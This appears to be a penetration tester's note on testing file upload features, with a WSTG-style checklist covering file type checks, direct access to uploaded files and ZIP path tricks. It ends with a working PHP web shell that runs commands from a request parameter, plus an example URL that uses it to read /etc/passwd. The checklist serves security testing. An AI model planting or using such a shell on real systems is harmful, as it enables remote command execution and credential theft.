 # File Upload

Tags: File Upload, insecure design

tools: exiftool

### WSTG Testing methodology

- Study the applications logical requirements.
- Prepare a library of files that are “not approved” for upload that may contain files such as: jsp, exe, or HTML files containing script.
- In the application navigate to the file submission or upload mechanism.
- Submit the “not approved” file for upload and verify that they are properly prevented from uploading
- Check if the website only do file type check in client-side JavaScript
- Check if the website only check the file type by “Content-Type” in HTTP request.
- Check if the website only check by the file extension.
- Check if other uploaded files can be accessed directly by specified URL.
- Check if the uploaded file can include code or script injection.
- Check if there is any file path checking for uploaded files.
Especially, hackers may compress files with specified path in ZIP so
that the unzip files can be uploaded to intended path after uploading
and unzip.
- Identify the file upload functionality.
- Review the project documentation to identify what file types are
considered acceptable, and what types would be considered dangerous or
malicious.
    - If documentation is not available then consider what would be appropriate based on the purpose of the application.
- Determine how the uploaded files are processed.
- Obtain or create a set of malicious files for testing.
- Try to upload the malicious files to the application and determine whether it is accepted and processed.

### Dont forget fuck with Web Shells

```
<?php
    if ($_SERVER['REMOTE_HOST'] === "FIXME") { // Set your IP address here
        if(isset($_REQUEST['cmd'])){
            $cmd = ($_REQUEST['cmd']);
            echo "<pre>\n";
            system($cmd);
            echo "</pre>";
        }
    }
?>
```

```jsx
https://example.org/7sna8uuorvcx3x4fx.php?cmd=cat+/etc/passwd
```
